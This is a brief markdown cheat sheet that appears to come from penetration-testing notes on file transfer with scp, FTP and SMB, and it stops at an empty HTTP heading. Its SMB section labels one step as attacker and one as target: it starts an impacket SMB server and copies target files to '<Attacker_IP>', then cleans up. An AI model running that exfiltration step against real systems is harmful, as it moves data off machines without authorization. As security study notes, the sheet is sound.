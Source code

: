 # File Transfers

### SSH
 - `scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2` (`-r` for recersive)
 - copy local file to remote: `scp file.txt remote_username@10.10.0.2:/remote/directory`
 - copy remote file to local: `scp remote_username@10.10.0.2:/remote/file.txt /local/directory`
   
### FTP
 - Upload to server: `put c:\files\file1.txt`
 - Download from server: `get c:\files\file1.txt`
 - Upload multiple files: use `lcd` to traverse kali; then `put *.txt` to put all files to server
 - Downlod multiple files: use `lcd` to traverse kale; then `mget *.txt` to pull all files to server
   
### SMB
 - Follow SMB Client Cheet Sheet
 - Use Impacket-smbserver
1. mkdir smb
2. #Attacker: sudo impacket-smbserver -smb2support share $(pwd)
3. #Target: copy <my_files>.zip \\<Attacker_IP>\share;
4. Clean up smb shares (delete file and close connection)
   
### HTTP
 - 
